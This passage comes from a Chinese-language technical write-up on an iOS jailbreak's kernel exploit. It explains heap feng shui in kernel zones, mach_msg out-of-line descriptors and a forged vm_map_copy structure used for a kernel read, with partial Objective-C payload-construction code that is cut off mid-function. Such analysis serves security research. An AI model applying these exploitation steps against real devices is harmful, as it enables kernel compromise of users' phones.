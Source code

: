 ![p9](http://drops.javaweb.org/uploads/images/b751c73d0e3e9d16b9c34e94fe455b5a2f9c4261.jpg)图9：堆溢出利用过程

**内核读**

内核读主要利用的 mach_msg 的 ool descriptor，具体过程如下：

1.  利用堆风水从 zone-256 中申请 8 个连续的内存块。
2.  释放前面 5 个内存块。
3.  向当前 Mach Task（untether）发送 mach 消息，消息带有 8 个 ool descriptor，每个 ool descriptor 的大小为：`256 – sizeof(fake_vm_map_copy_64)`。
    
    ```
    typedef struct fake_vm_map_copy_64_ {
        uint32_t type;
        uint64_t offset;
        uint64_t size;
        union {
            struct {
                uint8_t something[64];
            };
            uint64_t object;
            struct {
                uint64_t kdata;
                uint64_t kalloc_size;
            };
        };
    } fake_vm_map_copy_64;
    
    ```
    
    表22：关键数据结构：`fake_vm_map_copy_64`
    
    这样刚刚释放的内存块，就会被申请到。
    
4.  释放堆风水中后面 3 个内存块。
    
5.  触发漏洞，第 6 个内存块会被添加到 zone-1024 中。
    
6.  再次向自己发消息，ool descriptor 的大小为：`960 – sizeof(fake_vm_map_copy_64)`，因为系统会从 zone-1024 中分配 960 大小的内存块，这样我们只要控制 960 内存块的内容就可以控制溢出。
    
7.  控制溢出：
    
    ```
    - (void)constructPayload:(uint8_t *)buffer
              kobjectAddress:(mach_vm_address_t)kobject_address
                 readAddress:(mach_vm_address_t)address
                   _readSize:(mach_vm_size_t)size
    {
        // 0xA8 = 168(payload) = 256 - sizeof(fake_vm_map_copy_64)
        if (size < 0xA8) {
            size = 0xA8;
        }
    
        // 0x368 = 872 = 960 - 88
        // 0x0A8, 0x1A8, 0x2A8, 0x3A8
        // 0x3A8 - 0x368 = 0x40 = 64
        fake_vm_map_copy_64 *vm_copy_struct_ptr = (fake_vm_map_copy_64 *)(buffer + 0xA8);
        for (int idx = 0; idx < 3; ++idx) {
            memset(vm_copy_struct_ptr, 0, sizeof(fake_vm_map_copy_64));
    